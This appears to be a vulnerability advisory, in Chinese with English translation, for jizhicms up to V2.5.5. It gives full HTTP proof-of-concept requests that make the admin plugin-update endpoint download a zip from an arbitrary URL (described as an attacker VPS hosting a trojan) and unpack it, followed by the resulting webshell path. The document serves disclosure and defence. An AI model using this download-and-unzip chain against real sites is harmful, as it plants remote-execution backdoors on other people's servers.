








# jizhicms<=V2.5.5-Plugins/update.html-Remote download combined with decompression leads to remote code execution

## Supplier

https://www.jizhicms.cn/

## Description

jizhi CMS aims to help netizens solve the troubles of using Ultimate CMS and the difficulties encountered in daily website building. Remote download combined with decompression leads to remote code execution exists

## POC

在扩展管理-插件列表-下载插件

In Extension Management - Plugin List - Download Plugin

抓包-响应返回绝对路径+zip名称代表下载成功

Capture package - Response returns absolute path+zip name to indicate successful download



```
POST /index.php/admins/Plugins/update.html HTTP/1.1
Host: 192.168.24.65:1004
Content-Length: 103
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/142.0.0.0 Safari/537.36
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.24.65:1004
Referer: http://192.168.24.65:1004/index.php/admins/Plugins/index.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPCMF548bfec3975944bdebbbf4113b3e44d3member_uid=1; PHPCMF548bfec3975944bdebbbf4113b3e44d3member_cookie=af9cad3bdafee2d64cb9869846ad27b3; PHPSESSID=71ui30k1t81pk650ath51bu9bh
Connection: close

action=start-download&filepath=apidata&download_url=http%3A%2F%2Fdown.jizhicms.cn%2Fapidata-pro-1.6.zip
```

我们尝试下载我们vps构造的恶意zip，压缩包里面有我们的木马

We attempted to download the malicious zip constructed by our VPS, and the compressed file contained our Trojan horse



尝试下载，并且下载成功





到服务器查看，发现也下载成功

Upon checking the server, it was found that the download was also successful



我们构造解压请求包



```
POST /index.php/admins/Plugins/update.html HTTP/1.1
Host: 192.168.24.65:1004
Content-Length: 49
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/142.0.0.0 Safari/537.36
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.24.65:1004
Referer: http://192.168.24.65:1004/index.php/admins/Plugins/index.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPCMF548bfec3975944bdebbbf4113b3e44d3member_uid=1; PHPCMF548bfec3975944bdebbbf4113b3e44d3member_cookie=af9cad3bdafee2d64cb9869846ad27b3; PHPSESSID=71ui30k1t81pk650ath51bu9bh
Connection: close

filepath=apidata&filesize=15364&action=file-upzip
```

去服务器查看，发现成功解压

Go to the server to check, found successful decompression



访问木马

Accessing Trojans

http://192.168.24.65:1004/app/admin/exts/1.php



## version

Vulnerabilities affect versions


jizhicms<=V2.5.5
